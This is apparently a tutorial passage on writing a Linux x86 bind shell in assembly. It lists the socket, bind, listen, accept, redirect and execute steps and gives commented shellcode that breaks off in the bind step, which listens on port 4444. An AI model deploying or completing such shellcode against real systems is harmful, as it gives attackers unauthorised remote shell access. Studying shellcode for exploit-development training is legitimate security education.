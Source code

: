 ```C
```
Now, we can break down the steps necessary for creating a bind shell via ASM. The process can be broken into objectives:

1. Create a socket
2. Bind said socket
3. Set the bound socket to listen
4. Set the socket to accept new connections
5. Properly redirect input, output and errors
6. Execute a shell

Seeing the tasks broken down within the C helped to make the above list, but more than that, allowed me to better understand the data being passed to each function and why. With some objectives to accomplish, I came up with the following code for a bind shell:
```
global _start

section .text

_start:

        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        
        ; Push it to the stack for the socket(x,x, protocol) argument, set to IPPRORO_IP (0)
        push ecx

        ; socket(x, type, x) argument, set to SOCK_STREAM (1)
        push 0x1

        ; socket(domain, x, x) argument, set to AF_INET (2)
        push 0x2

        ; set socketcall(x, args) argument to ESP (the start of our args)
        ; Populate eax with socketcall (0x66)
        ; set socketcall(call, x) to 1 (sys_socket)
        mov ecx, esp
        mov al, 0x66
        mov bl, 0x1
        int 0x80

        ; Our socket file descriptor should be returned within EAX
        mov esi, eax

bind:
        ; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen)

        ; set up bind socketcall
        mov al, 0x66
        mov bl, 2

        xor ecx, ecx

        ; set up the sockaddr struct (2, 4444, 0)
        push ecx
        push word 0x5C11
        push word 0x2

        ; save the location of the struct
        mov edi, esp

        ; push addrlen (size of sockaddr)
        push 16
```